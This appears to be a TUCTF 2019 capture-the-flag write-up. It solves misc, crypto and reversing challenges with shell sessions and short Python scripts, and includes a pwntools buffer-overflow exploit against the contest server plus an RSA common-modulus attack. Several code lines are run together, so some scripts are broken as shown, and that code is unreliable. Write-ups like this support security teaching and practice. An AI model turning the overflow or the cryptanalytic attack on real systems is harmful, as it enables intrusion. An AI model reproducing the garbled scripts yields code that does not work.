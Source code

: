 # MISC
# Brain Games
I had a hard time automating this since it blacked out my entire terminal, so I just opened python and solved the three tasks quickly.

# Red Yarn
```bash
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/RedYarn$ ls
DEBUG.COM  solve
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/RedYarn$ strings DEBUG.COM | grep "TU"
TUCTF{D0NT_F0RG3T_TH3_B4S1CS!}
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/RedYarn$ 

```
# Super Secret
```bash
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret$ binwalk -e document.odt 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, compressed size: 39, uncompressed size: 39, name: mimetype77            0x4D            Zip archive data, at least v2.0 to extract, name: manifest.rdf
396           0x18C           Zip archive data, at least v2.0 to extract, name: Configurations2/progressbar/
454           0x1C6           Zip archive data, at least v2.0 to extract, name: Configurations2/toolbar/508           0x1FC           Zip archive data, at least v2.0 to extract, name: Configurations2/statusbar/
564           0x234           Zip archive data, at least v2.0 to extract, name: Configurations2/toolpanel/
620           0x26C           Zip archive data, at least v2.0 to extract, name: Configurations2/popupmenu/676           0x2A4           Zip archive data, at least v2.0 to extract, name: Configurations2/images/Bitmaps/
737           0x2E1           Zip archive data, at least v2.0 to extract, name: Configurations2/accelerator/795           0x31B           Zip archive data, at least v2.0 to extract, name: Configurations2/floater/
849           0x351           Zip archive data, at least v2.0 to extract, name: Configurations2/menubar/
903           0x387           Zip archive data, at least v2.0 to extract, name: content.xml2097          0x831           Zip archive data, at least v2.0 to extract, name: styles.xml
4206          0x106E          Zip archive data, at least v2.0 to extract, name: meta.xml
4714          0x126A          Zip archive data, at least v2.0 to extract, name: Basic/Standard/flag.xml
5051          0x13BB          Zip archive data, at least v2.0 to extract, name: Basic/Standard/script-lb.xml
5337          0x14D9          Zip archive data, at least v2.0 to extract, name: Basic/script-lc.xml
5613          0x15ED          Zip archive data, at least v2.0 to extract, name: settings.xml
7356          0x1CBC          Zip archive data, at least v2.0 to extract, compressed size: 3983, uncompressed size: 3983, name: Thumbnails/thumbnail.png
11393         0x2C81          Zip archive data, at least v2.0 to extract, name: META-INF/manifest.xml
13126         0x3346          End of Zip archive, footer length: 22

a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret$ cd _document.odt.extracted/
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted$ ls
0.zip  Configurations2  manifest.rdf  meta.xml  settings.xml  Thumbnails
Basic  content.xml      META-INF      mimetype  styles.xml
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted$ cd Basic/Standard/
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ ls
flag.xml  script-lb.xml
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ strings flag.xml | grep "TU"
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ 
```
	
# PWN
# Run Me
Just run the binary

# Thefirst
Buffer Overflow and rewrite the return address
```python
from pwn import * 
pad = "A" * 24
add = p32(0x080491f6)r = remote('chal.tuctf.com',30508)
r.sendline(pad+add)
r.interactive()
```


# CRYPTO
# Sonic
In this challenge we NC and a presented with an ASCII sonic and are to decrypt the given ciphertext in under a few seconds. After I realized they were applying a rotation of the alphabet by some number n, I decided to brute force all permutations and then used PyEnchant to check if a permutation was a word in the English language if it was I sent it over. 
```python
#!/usr/bin/python3
from pwn import *import enchant

d = enchant.Dict("en_US")
#r = remote('chal.tuctf.com', 30100)
#s = r.recv()
#print(s)s = 'pmttw'

def rot_alpha(n):    from string import ascii_lowercase as lc, ascii_uppercase as uc    lookup = str.maketrans(lc + uc, lc[n:] + lc[:n] + uc[n:] + uc[:n])
    return lambda s: s.translate(lookup)
for i in range(1,25):    if(d.check(rot_alpha(i)(s))):
        #r.sendline(rot_alpha(i)(s))
        print(rot_alpha(i)(s))
```

# Warren
This challenge provides five different ciphertexts using the following methods: baconian, caesar, vigenere, atbash, and affine. Since these did not change each you connected I solved statically and submitted. The only difficult part was vigenere since we did not know the key, but I used dcode and provided a known portion of the plaintext to be vigenere since it followed as a pattern in the previous messages.

# Something in Common
The given information shows two ciphertext, two public keys, and a single common modulus. With this information we can apply bezout's identity using the extended euclidean algorithm. Which states that there are two coefficients, which we can call a and b, such that a * e1 + b * e2 = gcd(e1,e2). We also know that the gcd of our public keys, 13 and 15, is 1 since they are coprime. 
```python
from fractions import gcd
n = 5196832088920565976847626600109930685983685377698793940303688567224093844213838345196177721067370218315332090523532228920532139397652718602647376176214689

e1 = 15
e2 = 13

c1 = 2042084937526293083328581576825435106672034183860987592520636048680382212041801675344422421233222921527377650749831658168085014081281116990629250092000069

c2 = 199621218068987060560259773620211396108271911964032609729865342591708524675430090445150449567825472793342358513366241310112450278540477486174011171344408
def egcd(a, b):
    if a == 0:        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)

def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise ValueError('Modular inverse does not exist.')
    else:
        return x % m

def attack(c1, c2, e1, e2, N):
    if gcd(e1, e2) != 1:
        raise ValueError("Exponents e1 and e2 must be coprime")
    s1 = modinv(e1,e2)
    s2 = (gcd(e1,e2) - e1 * s1) / e2
    temp = modinv(c2, N)
    m1 = pow(c1,s1,N)
    m2 = pow(temp,-s2,N)
    return (m1 * m2) % N


def main():
    try:
        message = attack(c1, c2, e1, e2, n)
        print '\nPlaintext message:\n%s' % format(message, 'x').decode('hex')
    except Exception as e:
        print e.message

main()
```
	
# REVERSING
# faker
The challenge provides a menu where we can decrypt three fake flags. Opening in Ghidra we find the decryption function and decompile it. Replicating this in python we can take the actual encrypted flag from memory and decrypt it using the following:
```
def printFlag(s):
   o = ''
   for i in range(len(s)):
       o += chr(((((ord(s[i]) ^ 0xf) - 0x1d) * 8) % 0x5f) + ord(' '))
   return o
   
if __name__ == '__main__':
    s = "\\PJ\\fC|)L0LTw@Yt@;Twmq0Lw|qw@w2$a@0;w|)@awmLL|Tw|)LwZL2lhhL0k"
    print(printFlag(s))
```
# core
Given a core dump I look for where the binary is ran and then for its subsequent output. The given .c shows they XOR the flag with 1 and output it. To easily find its output we can use the known flag format ```TUCTF{}```, we can find T ^ 1 to be U, which means ```UTBUGzb1s2^etlq>^O2w2s^i25se^1g^x1t|``` is our encrypted flag.

```python
s = 'UTBUGzb1s2^etlq>^O2w2s^i25se^1g^x1t|'
o=''
for i in range(len(s)):
    o += chr(ord(s[i]) ^ 1)
print(o)
```

	
